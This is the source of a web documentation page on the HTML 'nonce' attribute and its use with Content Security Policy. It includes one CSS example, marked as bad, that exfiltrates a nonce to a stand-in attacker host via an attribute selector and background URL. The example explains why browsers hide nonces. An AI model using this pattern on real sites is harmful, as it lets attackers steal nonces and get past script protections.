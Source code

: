```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
tags:
  - Global attributes
  - HTML
  - Reference
browser-compat: html.global_attributes.nonce
---
```


{{HTMLSidebar("Global_attributes")}}

The **`nonce`** [global attribute](/en-US/docs/Web/HTML/Global_attributes)
is a content attribute defining a cryptographic nonce ("number used once") which can be used by
[Content Security Policy](/en-US/docs/Web/HTTP/CSP) to determine whether or not a given fetch will
be allowed to proceed for a given element.

## Description

The `nonce` attribute is useful to allow-list specific elements, such as a particular inline script or style elements.
It can help you to avoid using the [CSP](/en-US/docs/Web/HTTP/CSP) `unsafe-inline` directive, which would allow-list _all_ inline scripts or styles.

> **Note:** Only use `nonce` for cases where you have no way around using unsafe inline script
> or style contents. If you don't need `nonce`, don't use it. If your script is static, you could also use a CSP hash instead.
> (See usage notes on [unsafe inline script](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Always try to take full advantage of [CSP](/en-US/docs/Web/HTTP/CSP) protections and avoid nonces or unsafe inline scripts whenever possible.

### Using nonce to allow-list a \<script> element

There are a few steps involved to allow-list an inline script using the nonce mechanism:

#### Generating values

From your web server, generate a random base64-encoded string of at least 128 bits of data from a cryptographically secure
random number generator. Nonces should be generated differently each time the page loads (nonce only once!). For example, in nodejs:

```js
const crypto = require('crypto');
crypto.randomBytes(16).toString('base64');
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Allow-listing inline script

The nonce generated on your backend code should now be used for the inline script that you'd like to allow-list:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">…</script>
```

#### Sending a nonce with a CSP header

Finally, you'll need to send the nonce value in a
[`Content-Security-Policy`](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) header
(prepend `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Accessing nonces and nonce hiding

For security reasons, the `nonce` content attribute is hidden (an empty string will be returned).

```js-nolint example-bad
script.getAttribute('nonce'); // returns empty string
```

The [`nonce`](/en-US/docs/Web/API/HTMLElement/nonce) property is the only way to access nonces:

```js example-good
script.nonce; // returns nonce value
```

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data
from content attributes like this:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`HTMLElement.nonce`](/en-US/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/CSP)
- CSP: [`script-src`](/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
